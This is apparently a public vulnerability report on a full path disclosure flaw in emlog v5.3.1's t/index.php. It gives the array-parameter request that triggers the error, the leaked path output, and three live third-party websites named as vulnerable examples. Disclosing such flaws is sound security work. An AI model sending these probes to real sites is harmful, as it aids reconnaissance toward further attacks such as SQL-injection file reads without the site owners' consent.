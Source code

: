 emlog v5.3.1 has Full Path Disclosure vulnerability


emlog is a fast, stable and easy-to-use blog and CMS website building system based on PHP and MySQL.


site: https://www.emlog.net/em_download/emlog/emlog_5.3.1.zip


github: https://github.com/emlog/


vulnerability in t/index.php line 11:

`$action = isset($_GET['action']) ? addslashes($_GET['action']) : '';`

that uses a method of requesting a page like this:

`https://localhost/t/index.php?action=n`

We can use a method of opening and closing braces that causes the page to output an error. This method would look like this:


`https://localhost/t/index.php?action[]=aaaa`

This renders the page defunct thus spitting out an error:

`addslashes() expects parameter 1 to be string, array given in <b>/www/wwwroot/web/t/index.php</b> on line <b>11`


POC:

`http://127.0.0.1/t/index.php?action[]=aaaa`

![image](https://github.com/thinkgad/Bugs/blob/main/images/ifs6g73f5feo3tv93e61lcuf35.png)


Full Path Disclosure vulnerabilities enable the attacker to see the path to the webroot/file. Certain vulnerabilities, such as using the load_file() (within a SQL Injection) query to view the page source, require the attacker to have the full path to the file they wish to view.


Examples:

```
view-source:https://www.jiquan123.cn/t/index.php?action[]=aaaa
view-source:https://www.zlrsl.cn/t/index.php?action[]=aaaa
view-source:https://dxs32.cn/t/index.php?action[]=aaaa
```
